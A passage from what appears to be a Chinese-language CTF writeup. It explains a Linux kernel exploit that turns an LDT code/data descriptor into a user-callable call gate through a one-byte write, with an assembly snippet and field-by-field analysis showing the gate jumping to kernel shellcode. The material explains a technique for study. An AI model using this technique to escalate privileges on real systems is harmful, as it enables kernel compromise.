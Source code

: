 也就是說，如果我們先註冊了一個 LDT entry，type 為 code/data segment，之後用 one byte write primitive 將 descriptor type 改成 **system segment**、segment type 改成 **call gate**，這樣就會以 call gate format 來使用 `struct desc_struct` 的內容，造成 **type confusion**。

Writeup 的 exploit 將寫入的位置與資料定義於變數 `module_message`，位置為 target LDT entry 位址 + offset 5，值則是 0xec。

```assembly
var module_message
    .quad LDT_BASE_ADDR + LDT_STRIDE + (TARGET_ENTRY * 8) + 5
    .byte 0b11101100        ; 0xec
endvar module_message
```

而在 overwrite 後，原本 `0x0040f30000101000` 會被修改成 `0x0040ec0000101000`，只差在把 descriptor type patch 成 1，以及 segment type 寫成 0xc，也就是 call gate。Linux kernel source code 中也有定義 call gate 的 type value。

```c
// arch/x86/include/asm/segment.h
enum {
    // [...]
    GATE_CALL = 0xC,
    // [...]
};
```

不過除了 type value 外，kernel 內沒有註冊或使用 call gate 的地方。參考 Intel manual **"5.8.3.1 IA-32e Mode Call Gates"**，64-bit mode 的 call gate descriptor 結構大概會像：

```c
struct call_gate_descriptor {
    uint16_t offset_low;
    uint16_t selector;
    uint8_t  reserved_0;
    uint8_t  type : 5;
    uint8_t  dpl : 2;
    uint8_t  present : 1;
    uint16_t offset_mid;
    uint32_t offset_high;
    uint32_t reserved_1;
} __attribute__((packed));
```

將 overwrited LDT entry value `0x0040ec0000101000` 對應到 `struct call_gate_descriptor` 各個成員：

```c
uint16_t offset_low;  // 0x1000
uint16_t selector;    // 0x0010
uint8_t  reserved_0;  // 0x00
uint8_t  type : 5;    // 0xc
uint8_t  dpl : 2;     // 0x3
uint8_t  present : 1; // 0x1
uint16_t offset_mid;  // 0x40
uint32_t offset_high; // 0x0
uint32_t reserved_1;  // 0
```

- offset - call gate handle function 的 offset。位置 0x401000 存放的是 kernel shellcode
- selector - 呼叫 call gate 時的 CS selector。0x10 對應到 `KERNEL_CS`
- dpl - 呼叫 call gate 所需的權限。3 代表 user space，也就是一般 process 也能呼叫


[0xffff88800009b000]: 0000582000005020